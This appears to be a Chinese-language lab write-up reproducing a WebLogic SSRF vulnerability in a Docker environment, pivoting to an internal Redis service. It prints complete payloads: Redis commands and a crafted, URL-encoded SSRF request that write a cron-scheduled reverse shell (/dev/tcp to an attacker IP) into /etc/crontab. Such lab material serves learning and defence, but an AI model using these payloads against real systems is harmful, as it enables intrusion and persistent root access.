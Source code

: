 # 【漏洞复现】weblogic SSRF攻击内网redis反弹shell
- 实验环境在kali中docker镜像中进行
- Weblogic中存在一个SSRF漏洞，本实验将利用该漏洞可以发送HTTP请求攻击内网中redis组件
- SSRF就是利用服务端来替我们去发送请求

### 首先启动kali，去拉取docker镜像，然后进入本机7001端口如果发现404就说明weblogic安装成功
### 拉取镜像：
![image](https://github.com/hecker-zz/blog/assets/153266742/e9f776dd-90bb-4c47-8d1e-cb01af8adb71)

### 访问7001端口：
![image](https://github.com/hecker-zz/blog/assets/153266742/b4440265-23d7-4a6d-9127-49912b0714ef)

### 进入:7001/uddiexplorer/目录下点击SearchPublicRegistries，进入页面后随便点击一下search按钮后进入bp进行重放。
### 点击search按钮
![image](https://github.com/hecker-zz/blog/assets/153266742/d2507f0b-8b06-4fe8-9975-87c104e29737)

### 进入bp找到该流量然后ctrl+R发送到重放模块
![image](https://github.com/hecker-zz/blog/assets/153266742/299b63c1-09c4-4438-b266-30834c2dcd68)

### 进入后发现operator选项中好像可以给别的目标发送http请求
![image](https://github.com/hecker-zz/blog/assets/153266742/30885077-5dec-4ec2-91c7-aa097f127b13)
### 测试一下给自己发一个http请求，发现成功了，结果就是刚开始我们访问7001端口时的404
![image](https://github.com/hecker-zz/blog/assets/153266742/58592d67-ec18-4233-98d8-bba421df1177)

### 这样的话就可以对内网其他主机进行搜寻。发现有台主机开放了6379端口，也就是redis服务。

### 那就可以利用redis数据库把反弹shell写到系统的计划任务中去，让他每隔一分钟反弹一次
### 发送三条redis命令，将弹shell脚本写入/etc/crontab
```
set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'sh -i >& /dev/tcp/192.168.200.144/21 0>&1'\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```
### 因为是在url中传递的所以要进行url编码
```
set%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.200.144%2F21%200%3E%261'%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave
```
### 那么开始构造传递的operator参数
```
http://172.19.0.2:6379/hecker%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.200.144%2F21%200%3E%261'%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Ahecker HTTP/1.1

```
### 把构造好的参数放到请求中去
![image](https://github.com/hecker-zz/blog/assets/153266742/57a8e86f-c046-497e-a2f9-29d7404c72a4)

### 在反弹之前本地监听21端口
![image](https://github.com/hecker-zz/blog/assets/153266742/5c834e44-f9b8-44ab-9132-d2ffeb485a5f)
### 然后发送请求后本地等待连接即可，这里发现已经反弹成功，成功拿到shell
![image](https://github.com/hecker-zz/blog/assets/153266742/b9c0614c-c205-480e-a455-775cfc224c44)